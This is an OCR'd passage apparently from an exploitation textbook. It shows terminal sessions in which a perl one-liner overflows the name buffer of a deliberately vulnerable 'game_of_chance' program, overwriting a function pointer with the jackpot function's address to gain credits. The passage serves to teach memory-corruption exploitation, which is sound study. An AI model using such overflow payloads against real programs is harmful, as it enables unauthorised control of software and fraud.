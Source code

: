 -=[ Game of Chance Menu ]=-
1 - Play the Pick a Number game
2 - Play the No Match Dealer game
3 - Play the Find the Ace game
4 - View current high score
5 - Change your user name
6 - Reset your account at 100 credits
7 - Quit
[Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAp?]
[You have 40 credits] ->
[DEBUG] current_game pointer @ 0x08048d70
*+*+*+*+*+* JACKPOT *+*+*+*+*+*
You have won the jackpot of 100 credits!

You now have 140 credits
Would you like to play again? (y/n) -=[ Game of Chance Menu ]=-
1 - Play the Pick a Number game
2 - Play the No Match Dealer game
3 - Play the Find the Ace game
4 - View current high score
5 - Change your user name
6 - Reset your account at 100 credits
7 - Quit
[Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAp?]
[You have 140 credits] ->
Thanks for playing! Bye.
reader@hacking:~/booksrc $
</pre>

After confirming that this method works, it can be expanded upon to gain any number of credits.

<pre style="color: white;">
reader@hacking:~/booksrc $ perl -e 'print "1\n5\nn\n5\n" . "A"x100 . "\x70\
x8d\x04\x08\n" . "1\n" . "y\n"x10 . "n\n5\nJon Erickson\n7\n"' | ./
game_of_chance
-=[ Game of Chance Menu ]=-
1 - Play the Pick a Number game
2 - Play the No Match Dealer game
3 - Play the Find the Ace game
4 - View current high score
5 - Change your user name
6 - Reset your account at 100 credits
7 - Quit
[Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAp?]
[You have 140 credits] ->
[DEBUG] current_game pointer @ 0x08048fde

####### Pick a Number ######
This game costs 10 credits to play. Simply pick a number
between 1 and 20, and if you pick the winning number, you
will win the jackpot of 100 credits!
